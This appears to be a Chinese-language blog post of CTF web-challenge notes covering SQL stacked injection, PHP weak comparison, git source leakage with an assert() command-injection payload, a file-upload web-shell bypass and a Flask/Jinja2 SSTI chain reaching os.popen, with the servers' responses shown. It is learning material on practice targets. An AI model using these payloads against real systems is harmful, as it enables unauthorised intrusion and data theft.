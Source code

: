 ```yaml
---
layout: post 
title: "2020.3.15学习总结"
date: 2020-03-15
author: su29029
tags: Web
---
```

### sql堆叠注入[stack injection]
当我们无法使用select等查询语句时[通常来说是被过滤了]，我们可以考虑尝试堆叠注入。所谓堆叠注入，顾名思义，就是一次性执行多条sql语句。我们知道sql语句以分号```;```结束，故如果我们使用分号提前结束前一条sql语句，然后再在分号后面执行我们想执行的语句，最后注释掉原本后面的sql语句段，就能实现堆叠注入的效果，从而造成了sql注入。  
不过sql堆叠注入的利用条件有限，通常只有在后台sql允许一次执行多条语句时才能利用。以一个题来举例子：  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5417&page=1  
拿到题目先尝试```'```发现sql报错，故判断存在sql注入点。随后```1'or '1'='1```，发现有回显，随后借助```order by```发现有两列，但尝试union select查询时发现了下面这条提示：  
<img src="/assets/img/20200315学习总结/20200315学习总结1.jpg">  
发现select，update，drop等等关键词都被过滤了，而且发现通过大小写，加注释等方式无法绕过，故只能放弃这一注入方式。随后尝试堆叠注入。  
尝试显示一下所有数据库和所有数据表。  
<img src="/assets/img/20200315学习总结/20200315学习总结2.jpg">  
<img src="/assets/img/20200315学习总结/20200315学习总结3.jpg">  
随后显示出words表和1919810931114514表的列：  
<img src="/assets/img/20200315学习总结/20200315学习总结4.jpg">  
<img src="/assets/img/20200315学习总结/20200315学习总结5.jpg">  
发现在19198109931114514表中存在我们想要的flag，且查询的时候是查询words表里的id，故我们尝试更改表名并把flag列名修改成id列名，19198109931114514表名修改成words表名。  
最终payload：```1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100)```  
<img src="/assets/img/20200315学习总结/20200315学习总结6.jpg">  
最后通过```1'or '1'='1 #```得到flag。  
<img src="/assets/img/20200315学习总结/20200315学习总结7.jpg">  
### php == 弱类型比较
php中有两种比较方式，```==```和```===```，其中==在进行比较的时候，会先将字符串类型转化成相同，再比较，而===在进行比较的时候，会先判断两种字符串的类型是否相等，再比较。举几个例子：  
<img src="/assets/img/20200315学习总结/20200315学习总结8.jpg">  
当php比较字符串和数字时，会将字符串向数字尝试转换，字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则值为0。但当字符串中出现.,e,E等字符时，如果字符前后都可转化为合法数字，则.会使字符串转化为小数，e,E会将字符串转换为科学计数法表示的数字。布尔值和数字比较时，true和大于等于1的数弱类型相等，false和0相等。  
### git源码泄露
git是一个是一个开源的分布式版本控制系统，可以有效、高速地处理从很小到非常大的项目版本管理。而初始化一个git目录时，会产生一个.git的文件夹，如果没有处理好则会造成git源码泄露。git源码可以通过GitHack来获取文件。以一个题目来举例子。  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5002&page=1  
拿到题目收集一下信息，F12发现element的注释里有个flag，访问发现为空。发现about页面提示使用了git，判断存在git源码泄露。  
<img src="/assets/img/20200315学习总结/20200315学习总结9.jpg">  
访问/.git/目录，发现果然存在git源码泄露。  
<img src="/assets/img/20200315学习总结/20200315学习总结10.jpg">  
随后使用[GitHack](https://github.com/lijiejie/GitHack)将源码还原。  
<img src="/assets/img/20200315学习总结/20200315学习总结11.jpg">  
打开flag.php，发现内容是空的。  
<img src="/assets/img/20200315学习总结/20200315学习总结12.jpg">  
打开index.php看看，发现了关键代码：  
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
<img src="/assets/img/20200315学习总结/20200315学习总结13.jpg">  
发现对page的内容只过滤了```..```，故尝试通过闭合连接字符串和执行系统命令来获取flag。故构造如下payload：```'.system("cat ./templates/flag.php").'```最后在注释里面获得flag。  
<img src="/assets/img/20200315学习总结/20200315学习总结14.jpg">  
### 文件上传
题目链接：https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Upload
打开题目发现有一个文件上传的接口，随便上传一个1.jpg看看，发现提示Not Image。  
<img src="/assets/img/20200315学习总结/20200315学习总结15.jpg">  
修改请求，写入一句话木马，并修改文件名为1.php，再次上传，发现提示错误。
<img src="/assets/img/20200315学习总结/20200315学习总结16.jpg">  
使用phtml后缀绕过，再次提交，依然发现错误。  
<img src="/assets/img/20200315学习总结/20200315学习总结17.jpg">  
说明后台对文件内容也进行了分析，提示发现```<?```故尝试通过```<script language="php"></script>```绕过，发现成功上传木马。  
<img src="/assets/img/20200315学习总结/20200315学习总结18.jpg">  
下面就简单了，使用蚁剑连接。然而发现直接连接/1.phtml会报错，故猜测/upload/1.phtml路径，发现成功连接。  
<img src="/assets/img/20200315学习总结/20200315学习总结19.jpg">  
(发现了好多不同的文件后缀，应该除了.phtml其他格式应该也能绕过吧，回头都试试嗯)
后面搜一搜服务器，flag就到手了。  
<img src="/assets/img/20200315学习总结/20200315学习总结20.jpg">  
### python flask 模板注入
python的flask框架使用Jinja2作为模板渲染引擎，如果render_template_string函数在渲染模板的时候使用了%s来动态的替换字符串，这里将造成ssti漏洞。Jinja2中{{}}是变量包裹标识符，它会将{{}}中的内容当作变量解析替换，如果我们的url中也含有{{}}的话，就会造成ssti。  
以一个题目举例子：  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5408&page=1  
打开题目提示python template injection，尝试{{2\*3}}发现表达式被执行，故存在ssti。  
<img src="/assets/img/20200315学习总结/20200315学习总结21.jpg">  
我们现在需要考虑借助这个ssti获得服务器的控制台权限。因为是python的框架，所以我们需要使用python来获取控制台权限，我们想到了```os.system```和```os.popen```两个方法，前者返回**退出状态码**，后者以**file形式**返回**输出内容**。这里我们要看到内容，故选择```os.popen```。    

那么怎么找到这个方法呢，python为我们提供了完整的查找链：  
```
__class__:返回对象所属类；
__mro__:返回一个类所继承的基类元组，方法在解析按照元组的顺序解析；
__base__:返回该类所继承的基类；
__subclasses__:每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的引用的列表；
__init__:类的初始化方法；
__globals__:对包含函数全局变量的字典的引用。
```  

ok，我们可以开始操作了。  
首先找到当前变量所在的类。    
```
{{''.__class__}}
```
服务器返回：  
```
URL http://111.198.29.45:59359/<type 'str'> not found
```
这个回复告诉我们，当前变量所在的类是str。   
随后我们找到它的基类。   

```
{{''.__class__.__mro__}}
```  
服务器返回：  
```
URL http://111.198.29.45:59359/(<type 'str'>, <type 'basestring'>, <type 'object'>) not found
```  
基类也有了。   
下一步找到任意一个基类的引用列表。  
```
{{''.__class__.__mro__[2].__subclasses__()}}
```  

服务器返回了一大串，我们找到os所在的```site._Printer```类，它在第72位，即```__subclasses__()[71]```。   
于是我们可以开始读取命令行输出了。   
```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
```
服务器返回：  
```
URL http://111.198.29.45:59359/fl4g index.py not found
```  
最后一步，读取fl4g。  
```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()}}
```  
服务器返回：  
```
URL http://111.198.29.45:59359/ctf{f22b6844-5169-4054-b2a0-d95b9361cb57} not found
```  
flag到手。  
